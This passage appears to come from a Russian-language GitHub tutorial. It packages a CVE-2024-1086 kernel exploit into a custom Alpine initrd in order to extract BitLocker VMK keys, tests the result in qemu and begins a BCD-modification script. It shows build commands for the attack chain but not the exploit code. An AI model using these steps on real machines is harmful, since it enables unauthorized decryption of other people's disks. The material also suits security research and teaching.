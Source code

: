 ```
COPY dhcp.start /

# Копируем наше linux kernel  
COPY kernel-modules/lib/modules/5.14.0-1-amd64/ /lib/modules/5.14.0-1-amd64/
# Копируем наш кастомный exploit для извлечения vmk ключей  
COPY CVE-2024-1086/ /root/CVE-2024-1086

CMD /build.sh
```
Теперь добавим в скрипт создания initrd который исполняет внутри контейнера и лежит в папку c Dockerfile ./build.sh
```
vim alpine-initrd/docker/build.sh
```
в конец документа [следующие строки ](alpine-initrd/docker/build.sh#L33)
```
#Создаём папку для хранения модулей для нашей версии ядра
mkdir -p $ROOTDIR/lib/modules/5.14.0-1-amd64
#Копируем модули в созданную папку
cp -r lib/modules/5.14.0-1-amd64/* $ROOTDIR/lib/modules/5.14.0-1-amd64/
#Создаём папку для нашего exploit
mkdir -p $ROOTDIR/root/CVE-2024-1086
#Копируем наш exploit для извлечения vmk
cp -r root/CVE-2024-1086/* $ROOTDIR/root/CVE-2024-1086/

# Генерируем зависимости для модулей ядра
chroot $ROOTDIR depmod -a 5.14.0-1-amd64
```
![](image/end_of_build.sh.png)
Для работы alpine нужен docker установим его
```
sudo pacman -S docker
```
Включим автозапуск и запустим
```
sudo systemctl enable --now docker.service
```
Теперь запускаем ./build.sh который лежит в директории alpine-initrd от имени sudo
```
sudo alpine-initrd/build.sh
```
Наш initrd файл готов протестировать его можно при помощи qemu
```
qemu-system-x86_64 \
  -kernel linux \
  -initrd alpine-initrd.xz \
  -append "console=ttyS0" \
  -nographic -m 1024M
```
Login: root
Password: "no password"

Теперь переместим необходимые файлы в папку grub
```
mv alpine-initrd.xz linux grub
```
## Автоматизировать копирование BCD
Для автоматизации создадим [скрипт](script_copy_and_mod_BCD.bat)
```
vim script_copy_and_mod_BCD.bat
```
#### код
```
@echo off
setlocal enabledelayedexpansion
```